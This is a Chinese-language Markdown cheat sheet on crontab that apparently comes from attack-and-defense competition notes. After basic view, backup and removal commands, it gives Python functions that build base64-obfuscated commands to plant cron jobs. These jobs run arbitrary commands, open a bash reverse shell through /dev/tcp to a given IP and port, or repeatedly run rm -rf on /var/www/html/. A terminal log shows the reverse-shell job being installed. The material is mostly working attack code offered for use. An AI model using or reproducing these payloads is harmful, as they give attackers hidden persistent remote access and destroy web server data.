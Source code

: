 - 查看定时任务

  `cat /etc/crontab*` 与`crontab -l`

- crontab备份

  ```crontab -l > $HOME/mycron```

- 删除crontab（www-data种植，www-data清理）

  ```
  crontab -r
  ```

- crontab执行任意命令

  ```python
  import base64
  def crontab_reverse(cmd):
      crontab_path = "/tmp"
      crontab_cmd = "* * * * * bash -c '%s'\n"%cmd
      encode_crontab_cmd = base64.b64encode(crontab_cmd)
      cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp.conf"+ " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
      return cmd 
  ```

- crontab反弹shell

  ```python
  import base64
  def crontab_reverse(reverse_ip,reverse_port):
      crontab_path = "/tmp"
      cmd = 'bash -i >& /dev/tcp/%s/%d 0>&1'%(reverse_ip , reverse_port)
      crontab_cmd = "* * * * * bash -c '%s'\n"%cmd
      encode_crontab_cmd = base64.b64encode(crontab_cmd)
      cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp.conf"+ " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
      return cmd 
  ```

  ```bash
  ubuntu@ubuntu-virtual-machine:~$ /bin/echo KiAqICogKiAqIGJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTI3LjAuMC4xLzgwODAgMD4mMScK | /usr/bin/base64 -d | /bin/cat >> /tmp/tmp.conf ; /usr/bin/crontab /tmp/tmp.conf
  ubuntu@ubuntu-virtual-machine:~$
  ubuntu@ubuntu-virtual-machine:~$ crontab -l
  * * * * * bash -c 'bash -i >& /dev/tcp/127.0.0.1/8080 0>&1'
  ```

- crontab删除文件

  ```python
  import base64
  def crontab_rm(rm_paths='/var/www/html/'):
      crontab_path = "/tmp"
      cmd = '/bin/rm -rf %s'%rm_paths
      crontab_cmd = "* * * * * %s\n"%cmd
      encode_crontab_cmd = base64.b64encode(crontab_cmd)
      cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp.conf" + " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
      return cmd
  ```
